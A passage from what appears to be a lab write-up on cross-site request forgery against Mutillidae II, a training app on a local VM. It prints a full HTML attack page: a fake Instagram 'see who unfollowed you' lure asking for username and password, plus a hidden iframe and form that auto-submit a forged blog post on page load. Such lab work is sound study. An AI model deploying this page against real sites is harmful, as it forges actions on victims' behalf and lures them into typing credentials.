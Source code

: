    ![who unfollowed you - dummy page](/img/mutillidae2/csrf/1-2.png)

3. I also added a hidden form which will be used to create a POST request. For the form fields, I used the parameters I obtained from the first step.
   
   ```html
   <html>

       <head>
           <title>See Who Unfollowed</title>
       </head>

       <body>

           <a href="http://localhost/instagramHacks.html">Back to the home</a>
                
           <center>
               <img src="instagram.png" width="100px" height="100px">
                    <h1>Let's see who unfollowed you!</h1>

               <p>Enter your username and password:</p>

               <form id="dummy" action="/whoUnfollowedResult.html">
                   <label for="username">Username: </label>
                   <input type="text" name="username" value=""><br><br>

                   <label for="password">Password: </label>
                   <input type="password" name="password" value="">
               </form> 

               <button type="submit" form="dummy" value="Submit">Find out</button>
           </center>

           <!-- Form target frame to avoid redirection -->
           <iframe id="iframe" name="my_iframe" style="position: absolute;width:0;height:0;border:0;"></iframe>
                
           <!-- CSRF - Add blog post -->
           <form name="csrf" id="csrf" target="my_iframe" action="http://192.168.56.101/mutillidae/index.php?page=add-to-your-blog.php" method="POST">
               <input type="hidden" name='csrf-token' value=''>
               <input type="hidden" name='blog_entry' value='Hi, I am such a generous person that I give my passwords to everyone!'>
               <input type="hidden" name='add-to-your-blog-php-submit-button' value='Save Blog Entry'>
           </form>
                
           <!-- Send POST request -->
           <script>
               document.csrf.submit();
           </script>

       </body>
   ```